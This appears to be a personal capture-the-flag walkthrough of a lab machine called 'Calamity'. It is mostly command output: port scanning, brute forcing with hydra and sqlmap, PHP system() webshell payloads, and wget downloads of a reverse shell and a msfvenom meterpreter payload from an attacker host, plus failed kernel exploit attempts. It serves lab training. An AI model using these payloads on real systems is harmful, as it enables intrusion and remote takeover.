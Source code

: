```yaml
---
title: Calamity（web rce）
categories:
- training
tags:
- training
---
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
1.

```
gobuster -u http://10.10.10.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/uploads (Status: 301)
```
2.

```
curl -X OPTIONS http://10.10.10.27 -I
HTTP/1.1 200 OK
Date: Wed, 20 Mar 2019 02:36:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Allow: OPTIONS,GET,HEAD,POST
Content-Length: 0
Content-Type: text/html
```
```
curl -X PUT http://10.10.10.27/uploads/1.html -d "<?php system($_GET['cmd']) ?>" <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>405 Method Not Allowed</title>
</head><body>
<h1>Method Not Allowed</h1>
<p>The requested method PUT is not allowed for the URL /uploads/1.html.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.27 Port 80</address>
</body></html>
```

3. nikto -h 10.10.10.27 
```
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-29786: /admin.php?en_log_id=0&action=config: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-29786: /admin.php?en_log_id=0&action=users: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-3092: /admin.php: This might be interesting...
```
4. searchsploit EasyNews

4. http://10.10.10.27/admin.php

5. burp + sqlmap
```
POST /admin.php HTTP/1.1

Host: 10.10.10.27

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Referer: http://10.10.10.27/admin.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 15

Connection: close

Upgrade-Insecure-Requests: 1

user=00&pass=00
```
sqlmap -r 1.req

sqlmap -r 1.req --risk 3 --level 5

6. hydra
```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -P /usr/share/wordlists/500-worst-passwords.txt -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```
7. wapiti -u http://10.10.10.27/admin.php
not found any vul

8. curl -X POST http://10.10.10.27/admin.php -d "<?php system($_GET['cmd']) ?>" 
```
<html><body>

<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
										<!-- password is:skoupidotenekes-->
</form> 
</body></html>
```
准备尝试post能否上传一句话，然后意外发现，源代码中藏着密码。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/3.PNG)
发现图片中用户名和密码颠倒了，burp抓包...em，应该是开发错误。

9. 

```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"

hydra -L cirt-default-usernames.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/4.PNG)

10. http://10.10.10.27/admin.php?html=

```
html=<?php system(ls) ?> admin.php bg.png index.html leet.png uploads 
html=<?php system(whoami) ?>   www-data 
html=<?php system("cat /etc/passwd") ?>
html=<?php system("cat /home/xalvas/user.txt") ?>

/bin/nc /bin/nc.openbsd     nc不支持-e，于是上传php shell。
ls -al /tmp          tmp目录可写不可读
d-wx-wx-wx  10 root root  4096 Mar 19 23:39 tmp

pwd /var/www/html

/usr/bin/wget http://10.10.14.7/php-reverse-shell.php -P /tmp

html=<?php system("ls -al /tmp/shell.php") ?>
chmod a+x /tmp/php-reverse-shell.php
html=<?php system("php /tmp/php-reverse-shell.php") ?>
获得一个shell
```
11. info

Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 i686 i686 GNU/Linux

whereis gcc

gcc: /usr/bin/gcc /usr/lib/gcc /usr/share/man/man1/gcc.1.gz

准备上传msf类型exp。
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=6678 -f elf -o payload.elf

本地执行：
handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp
python -m SimpleHTTPServer

远程shell执行：
wget http://10.10.14.7:8000/payload.elf -P /tmp
chmod a+x /tmp/payload.elf
./tmp/payload.elf

[*] Meterpreter session 5 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 12:11:48 +0800

成功连接，但是一旦连接就会断开
```
12. searchsploit linux 4.4.0
```
wget http://10.10.14.7:8000/43418.c -P /tmp
chmod a+x /tmp/43418.c
gcc 43418.c -o pwn
编译失败

wget http://10.10.14.7:8000/pwn -P /tmp
chmod a+x /tmp/pwn
./pwn
二进制格式失败，kali本地编译运行为64位。

wget http://10.10.14.7:8000/44298.c -P /tmp
gcc 44298.c -o pwn
44298.c
编译失败
```
13. ps -ef | grep root
```
root      1049     1  0 Mar17 ?        00:00:01 /usr/bin/lxcfs /var/lib/lxcfs/
搜索lxcfs，判断主机可能是一个容器。
```
14. cat /home/xalvas/dontforget.txt
```
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```
15. 找到一个可写目录/var/tmp，将LinEnum.sh上传到目标机
```
wget http://10.10.14.7:8000/LinEnum.sh
wget http://10.10.14.7:8000/linux-exploit-suggester.sh
chmod a+x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

wget http://10.10.14.7:8000/40839
gcc -pthread 40839 -o dirty -lcrypt
/usr/bin/ld:40839: file format not recognized; treating as linker script
/usr/bin/ld:40839:2: syntax error
collect2: error: ld returned 1 exit status
```
16. 
```
nc -lnvp 7788 < recov.wav
Listening on [0.0.0.0] (family 0, port 7788)
Killed

python -m SimpleHTTPServer
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Killed
```
提权需要绕过进程保护，绕过许多内存保护机制，利用二进制文件。手写exp。

看了wp也看不懂，溜了溜了。


